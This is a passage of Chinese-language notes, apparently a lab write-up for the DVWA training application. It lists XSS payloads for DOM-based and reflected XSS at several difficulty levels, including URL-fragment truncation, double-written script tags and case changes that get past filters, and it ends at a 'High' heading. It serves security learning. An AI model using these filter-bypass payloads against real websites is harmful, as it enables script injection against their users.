 #### Medium级别

##### 考点：URL截断（#、_、等特殊字符截断，服务器将不接收后续数据）

##### 思路：URL截断注入XSS

**payload：**

```
?#default=<script>alert(/xss/)</script>
```



#### High级别

##### 考点：URL截断（#、_、等特殊字符截断，服务器将不接收后续数据）

##### 思路：URL截断注入XSS

**payload：**

```
?#default=<script>alert(/xss/)</script>
```



### [DVWA]（Reflected）反射型

#### Low级别

##### 考点：简单的XSS注入

##### 思路：直接注入XSS

**payload：**

```
<script>alert(/xss/)</script>
```



#### Medium级别

##### 考点：双写绕过\<script\> 或 大小写绕过

##### 思路：双写绕过\<script\>被BAN的\<script\>

**payload：**

```
<sc<script>ript>alert(/xss/)</script>		//双写
<Script>alert(/xss/)</script>		//大小写
```



#### High级别
